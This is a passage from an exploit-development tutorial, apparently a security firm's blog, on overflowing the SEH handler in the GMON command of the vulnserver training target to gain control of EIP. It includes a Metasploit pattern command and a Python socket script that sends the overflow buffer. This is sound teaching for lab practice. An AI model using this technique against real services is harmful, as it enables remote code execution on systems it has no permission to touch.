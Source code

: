 Now run our exploit with `vulnserver.exe` attached to a debugger:

<div class="imgblock">

![PoC](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331143/blog/vulnserver-gmon/crash1_hrw5ri.gif)

</div>

As you can see, we effectively crashed `vulnserver.exe`, but `EIP` does
not seem to be mangled by our buffer.

However, if we look at the `SEH` chain table, we will see this:

<div class="imgblock">

![Corrupted SEH](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331141/blog/vulnserver-gmon/seh3_axexgv.webp)

</div>

That means that we effectively triggered an exception and overwrote the
exception handler with our buffer. If we trigger the exception handler
(in Immunity Debugger, it’s done with `Shift+F9`) this will happen:

<div class="imgblock">

![EIP control](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331142/blog/vulnserver-gmon/eip1_keniyt.gif)

</div>

We control `EIP!` That means that we have control over the process
execution flow again.

We can now exploit this.

## Exploiting

We first need to find the exact offset on where the `SEH` handler gets
overwritten. We can do that by creating a cyclic pattern using
`pattern_create.rb` from Metasploit:

``` console
$ msf-pattern_create -l 5000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac....
```

Let’s add that pattern to our exploit:

``` python
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'<insert pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

